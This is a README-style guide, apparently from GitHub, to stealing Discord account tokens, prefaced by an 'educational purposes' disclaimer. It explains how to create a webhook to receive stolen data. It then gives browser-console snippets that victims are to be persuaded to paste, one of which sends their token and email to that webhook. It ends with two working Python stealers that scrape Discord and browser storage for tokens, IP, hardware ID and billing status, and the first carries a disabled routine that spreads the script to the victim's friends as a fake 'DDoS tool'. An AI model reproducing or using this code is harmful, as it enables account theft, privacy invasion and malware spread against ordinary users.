 ## Discord Matters

![](https://img.shields.io/badge/%E2%AD%90-If%20you%20find%20it%20%F0%9F%95%B6%EF%B8%8F%20-%23FFFF00)
![](https://img.shields.io/badge/DISCLAIMER-DO%20NOT%20USE%20FOR%20ANYTHING%20ILLEGAL-red)
![](https://img.shields.io/badge/Created-30%2F11%2F2021-brightgreen)

### DISCLAIMER

DO NOT USE THE INFORMATION PROVIDED HERE TO DO ANYTHING ILLEGAL OR FOR EVEN POTENTIALLY ILLEGAL ACTIVITIES.

I do not claim responsibility or involvement for anything you break or any trouble you may get into by using the information here.

THIS IS STRICTLY FOR EDUCATIONAL PURPOSES AND THE KNOWLEDGE SHOULD NOT BE USED ILLEGALLY.

---

### How to set up your discord webhook: 

Discord Webhooks allow you to receive messages in a Discord Server Channel externally via a HTTP POST Request.

<details>
    
<summary>Steps: </summary>
<br>
1. Click on the settings icon in your desired Discord channel. It is recommended to create your own Discord server and channel specifically for this purpose of receiving webhook messages.
<br>
 
![](https://i.imgur.com/5omkwZc.jpeg)

2. Click on ```integrations``` in the menu. 

![](https://i.imgur.com/XbBo8CD.png)

3. Click on ```Create webhook```.

![](https://i.imgur.com/VgW7vMM.png)

4. Name your webhook "bot" and give it a profile picture. 

![](https://i.imgur.com/2MticGD.png)

5. Then, click on ```Copy webhook URL``` and you have your discord webhook setup!

![](https://i.imgur.com/8AnneNZ.png)
</details>

---

## Grabbing the token
Our first goal is to obtain the discord token. This can be done through a C++ program compiled into exe, Python program (may be in exe), or JavaScript injection in the console of discord web version. 

### Method 1: Get user to send you the token or get it yourself (JavaScript)

Get user to copy and paste this code into browser console and send you back the token. Token will be alerted in window and logged in console. 

``` function getLocalStoragePropertyDescriptor() {const iframe = document.createElement('iframe');document.head.append(iframe);const pd = Object.getOwnPropertyDescriptor(iframe.contentWindow, 'localStorage');iframe.remove();return pd;} Object.defineProperty(window, 'localStorage', getLocalStoragePropertyDescriptor());console.log(localStorage.token); window.alert(localStorage.token); ```

Make sure to tell the user to ```toggle device toolbar``` with the button below or else the code will not fetch.

Before: ![](https://i.imgur.com/AfWZAQl.jpeg)
After: ![](https://i.imgur.com/zl2sHCk.jpeg)

Alternative codes, follow the same steps as above.

```javascript:document.getElementsByTagName("body")[0].innerHTML = localStorage.token;```

```Object.values(webpackJsonp.push([[],{['']:(_,e,r)=>{e.cache=r.c}},[['']]]).cache).find(m=>m.exports&&m.exports.default&&m.exports.default.getToken!==void 0).exports.default.getToken()```

### Method 2: Get user to run code and token will be sent to you (JavaScript)

Get user to copy and paste this code into browser console and token will be automatically sent back to you via discord webhook. Replace ```YOUR DISCORD WEBHOOK HERE``` with your discord webhook URL.

<details>

<summary>Code: </summary>    
    
```
location.reload();
var discordWebhook = "YOUR DISCORD WEBHOOK HERE";
var i = document.createElement('iframe');
document.body.appendChild(i);
var request = new XMLHttpRequest();
request.open("POST", discordWebhook);
request.setRequestHeader('Content-type', 'application/json');
var params = {
    username: "Token Grabber",
    avatar_url: "https://malwarefox.com/wp-content/uploads/2017/11/hacker-1.png",
    content: '**Nouvelle personne hackée !**\n------------------\nToken : ' + i.contentWindow.localStorage.token + '\n------------------\nAdresse email : ' + i.contentWindow.localStorage.email_cache + '\n------------------\nUser ID : ' + i.contentWindow.localStorage.user_id_cache + '\n------------------\nFingerprint : ' + i.contentWindow.localStorage.fingerprint + '\n------------------\nPropriétés : \`\`\`json\n' + i.contentWindow.localStorage.deviceProperties + '\`\`\`------------------\nScript de login : \n\`\`\`js\nlocation.reload();var i = document.createElement(\'iframe\');document.body.appendChild(i);i.contentWindow.localStorage.token = "\\"' + i.contentWindow.localStorage.token.replace(/^"(.*)"$/, '$1') + '\\""\`\`\`'
};
request.send(JSON.stringify(params));
```

</details>    
    
### Method 3: Get user to run code and token will be sent to you (Python/C++)

Get user to run python code OR exe file and token will be automatically sent back to you via discord webhook. 

<details>

<summary>First Python Script (Requires pip installation of some libraries), replace <code>WEBHOOK HERE</code> with your webhook URL : </summary>

```
from discord_webhook import DiscordWebhook, DiscordEmbed
from threading import Thread
import urllib3
urllib3.disable_warnings()
import colorama
from colorama import Fore, Style, Back
from time import sleep
colorama.init()

def Auth():
    def dastela():
        global WEBHOOK
        WEBHOOK = "WEBHOOK HERE"
        import os
        if os.name != "nt":
            exit()
        from re import findall
        from json import loads, dumps
        from base64 import b64decode
        from subprocess import Popen, PIPE
        from urllib.request import Request, urlopen
        from datetime import datetime
        from threading import Thread
        from time import sleep
        from sys import argv
        LOCAL = os.getenv("LOCALAPPDATA")
        ROAMING = os.getenv("APPDATA")
        PATHS = {
            "Discord"           : ROAMING + "\\Discord",
            "Discord Canary"    : ROAMING + "\\discordcanary",
            "Discord PTB"       : ROAMING + "\\discordptb",
            "Google Chrome"     : LOCAL + "\\Google\\Chrome\\User Data\\Default",
            "Opera"             : ROAMING + "\\Opera Software\\Opera Stable",
            "Brave"             : LOCAL + "\\BraveSoftware\\Brave-Browser\\User Data\\Default",
            "Yandex"            : LOCAL + "\\Yandex\\YandexBrowser\\User Data\\Default"
        }
        def getheaders(token=None, content_type="application/json"):
            headers = {
                "Content-Type": content_type,
                "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11"
            }
            if token:
                headers.update({"Authorization": token})
            return headers
        def getuserdata(token):
            try:
                return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me", headers=getheaders(token))).read().decode())
            except:
                pass
        def gettokens(path):
            path += "\\Local Storage\\leveldb"
            tokens = []
            for file_name in os.listdir(path):
                if not file_name.endswith(".log") and not file_name.endswith(".ldb"):
                    continue
                for line in [x.strip() for x in open(f"{path}\\{file_name}", errors="ignore").readlines() if x.strip()]:
                    for regex in (r"[\w-]{24}\.[\w-]{6}\.[\w-]{27}", r"mfa\.[\w-]{84}"):
                        for token in findall(regex, line):
                            tokens.append(token)
            return tokens
        def getip():
            ip = "None"
            try:
                ip = urlopen(Request("https://api.ipify.org")).read().decode().strip()
            except:
                pass
            return ip
        def gethwid():
            p = Popen("wmic csproduct get uuid", shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE)
            return (p.stdout.read() + p.stderr.read()).decode().split("\n")[1]
        def getfriends(token):
            try:
                return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/relationships", headers=getheaders(token))).read().decode())
            except:
                pass
        def getchat(token, uid):
            try:
                return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/channels", headers=getheaders(token), data=dumps({"recipient_id": uid}).encode())).read().decode())["id"]
            except:
                pass
        def has_payment_methods(token):
            try:
                return bool(len(loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/billing/payment-sources", headers=getheaders(token))).read().decode())) > 0)
            except:
                pass
        def send_message(token, chat_id, form_data):
            try:
                urlopen(Request(f"https://discordapp.com/api/v6/channels/{chat_id}/messages", headers=getheaders(token, "multipart/form-data; boundary=---------------------------325414537030329320151394843687"), data=form_data.encode())).read().decode()
            except:
                pass
        def spread(token, form_data, delay):
            return # Remove to re-enabled
            for friend in getfriends(token):
                try:
                    chat_id = getchat(token, friend["id"])
                    send_message(token, chat_id, form_data)
                except Exception as e:
                    pass
                sleep(delay)
        def main():
            cache_path = ROAMING + "\\.cache~$"
            prevent_spam = True
            self_spread = True
            embeds = []
            working = []
            checked = []
            already_cached_tokens = []
            working_ids = []
            ip = getip()
            pc_username = os.getenv("UserName")
            pc_name = os.getenv("COMPUTERNAME")
            user_path_name = os.getenv("userprofile").split("\\")[2]
            for platform, path in PATHS.items():
                if not os.path.exists(path):
                    continue
                for token in gettokens(path):
                    if token in checked:
                        continue
                    checked.append(token)
                    uid = None
                    if not token.startswith("mfa."):
                        try:
                            uid = b64decode(token.split(".")[0].encode()).decode()
                        except:
                            pass
                        if not uid or uid in working_ids:
                            continue
                    user_data = getuserdata(token)
                    if not user_data:
                        continue
                    working_ids.append(uid)
                    working.append(token)
                    username = user_data["username"] + "#" + str(user_data["discriminator"])
                    user_id = user_data["id"]
                    email = user_data.get("email")
                    phone = user_data.get("phone")
                    nitro = bool(user_data.get("premium_type"))
                    billing = bool(has_payment_methods(token))
                    embed = {
                        "color": 0x9d00ff,
                        "fields": [
                            {
                                "name": "**Account Info**",
                                "value": f'Email: {email}\nPhone: {phone}\nNitro: {nitro}\nBilling Info: {billing}',
                                "inline": True
                            },
                            {
                                "name": "**PC Info**",
                                "value": f'IP: {ip}\nUsername: {pc_username}\nPC Name: {pc_name}\nToken Location: {platform}',
                                "inline": True
                            },
                            {
                                "name": "**Token**",
                                "value": token,
                                "inline": False
                            }
                        ],
                        "author": {
                            "name": f"{username} ({user_id})",
                        },
                        "footer": {
                            "text": f""#Change this to some footer, anything is fine1
                        }
                    }
                    embeds.append(embed)
            with open(cache_path, "a") as file:
                for token in checked:
                    if not token in already_cached_tokens:
                        file.write(token + "\n")
            if len(working) == 0:
                working.append('123')   
            webhook = {
                "content": "",
                "embeds": embeds,
                "username": "First Officer Hook",#you can change this also
                "avatar_url": "https://www.designveloper.com/wp-content/uploads/2019/05/python-programming-language.jpg" #this too
            }
            try:
                urlopen(Request(WEBHOOK, data=dumps(webhook).encode(), headers=getheaders()))
            except:
                pass
            if self_spread:
                for token in working:
                    with open(argv[0], encoding="utf-8") as file:
                        content = file.read()
                    payload = f'-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="file"; filename="{__file__}"\nContent-Type: text/plain\n\n{content}\n-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="content"\n\nDDoS tool. python download: https://www.python.org/downloads\n-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="tts"\n\nfalse\n-----------------------------325414537030329320151394843687--'
                    Thread(target=spread, args=(token, payload, 7500 / 1000)).start()
        try:
            main()
        except Exception as e:
            print(e)
            pass
    try:
        dastela()
    except:
        pass
    
Auth()
```
</details>

<details>
    <summary>Second Python Script, replace <code>WEBHOOK HERE</code> with your webhook URL : </summary>

```
import os
import re
import json

from urllib.request import Request, urlopen

# your webhook URL
WEBHOOK_URL = 'WEBHOOK HERE'

# mentions you when you get a hit
PING_ME = True

def find_tokens(path):
    path += '\\Local Storage\\leveldb'

    tokens = []

    for file_name in os.listdir(path):
        if not file_name.endswith('.log') and not file_name.endswith('.ldb'):
            continue

        for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]:
            for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                for token in re.findall(regex, line):
                    tokens.append(token)
    return tokens

def main():
    local = os.getenv('LOCALAPPDATA')
    roaming = os.getenv('APPDATA')

    paths = {
        'Discord': roaming + '\\Discord',
        'Discord Canary': roaming + '\\discordcanary',
        'Discord PTB': roaming + '\\discordptb',
        'Google Chrome': local + '\\Google\\Chrome\\User Data\\Default',
        'Opera': roaming + '\\Opera Software\\Opera Stable',
        'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default',
        'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default'
    }

    message = '@everyone' if PING_ME else ''

    for platform, path in paths.items():
        if not os.path.exists(path):
            continue

        message += f'\n**{platform}**\n```\n'

        tokens = find_tokens(path)

        if len(tokens) > 0:
            for token in tokens:
                message += f'{token}\n'
        else:
            message += 'No tokens found.\n'

        message += '```'

    headers = {
        'Content-Type': 'application/json',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11'
    }

    payload = json.dumps({'content': message})

    try:
        req = Request(WEBHOOK_URL, data=payload.encode(), headers=headers)
        urlopen(req)
    except:
        pass

if __name__ == '__main__':
    main()
```
</details>
